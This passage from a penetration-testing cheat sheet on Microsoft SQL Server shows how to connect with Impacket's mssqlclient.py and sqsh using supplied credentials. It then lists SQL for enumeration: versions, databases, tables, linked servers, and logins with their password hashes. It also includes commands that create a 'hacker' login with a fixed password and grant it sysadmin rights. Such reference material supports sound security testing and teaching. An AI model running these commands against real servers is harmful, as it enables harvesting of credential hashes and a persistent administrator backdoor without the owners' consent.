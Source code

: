 ```bash
# Using Impacket mssqlclient.py
mssqlclient.py [-db volume] <DOMAIN>/<USERNAME>:<PASSWORD>@<IP>
## Recommended -windows-auth when you are going to use a domain. Use as domain the netBIOS name of the machine
mssqlclient.py [-db volume] -windows-auth <DOMAIN>/<USERNAME>:<PASSWORD>@<IP>

# Using sqsh
sqsh -S <IP> -U <Username> -P <Password> -D <Database>
## In case Windows Auth using "." as domain name for local user
sqsh -S <IP> -U .\\<Username> -P <Password> -D <Database>
## In sqsh you need to use GO after writting the query to send it
1> select 1;
2> go
```

#### Common Enumeration

```sql
# Get version
select @@version;
# Get user
select user_name();
# Get databases
SELECT name FROM master.dbo.sysdatabases;
# Use database
USE master

#Get table names
SELECT * FROM <databaseName>.INFORMATION_SCHEMA.TABLES;
#List Linked Servers
EXEC sp_linkedservers
SELECT * FROM sys.servers;
#List users
select sp.name as login, sp.type_desc as login_type, sl.password_hash, sp.create_date, sp.modify_date, case when sp.is_disabled = 1 then 'Disabled' else 'Enabled' end as status from sys.server_principals sp left join sys.sql_logins sl on sp.principal_id = sl.principal_id where sp.type not in ('G', 'R') order by sp.name;
#Create user with sysadmin privs
CREATE LOGIN hacker WITH PASSWORD = 'P@ssword123!'
EXEC sp_addsrvrolemember 'hacker', 'sysadmin'

#Enumerate links
enum_links
#Use a link
use_link [NAME]
```

#### Get User

{{#ref}}
types-of-mssql-users.md
{{#endref}}
